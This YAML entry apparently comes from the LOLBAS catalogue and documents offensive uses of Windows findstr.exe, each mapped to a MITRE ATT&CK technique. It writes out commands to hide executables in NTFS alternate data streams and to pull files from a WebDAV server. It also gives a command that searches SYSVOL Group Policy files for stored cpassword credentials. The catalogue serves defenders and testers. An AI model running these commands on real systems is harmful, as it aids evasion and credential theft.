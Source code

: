 ```yaml
---
Name: Findstr.exe
Description:
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1081
    MitreLink: https://attack.mitre.org/wiki/Technique/T1081
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
    Description: Searches for the string W3AllLov3DonaldTrump, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1185
    MitreLink: https://attack.mitre.org/wiki/Technique/T1185
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Code_Sample:
  - Code:
Detection:
  - IOC: finstr.exe should normally not be invoked on a client system
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```

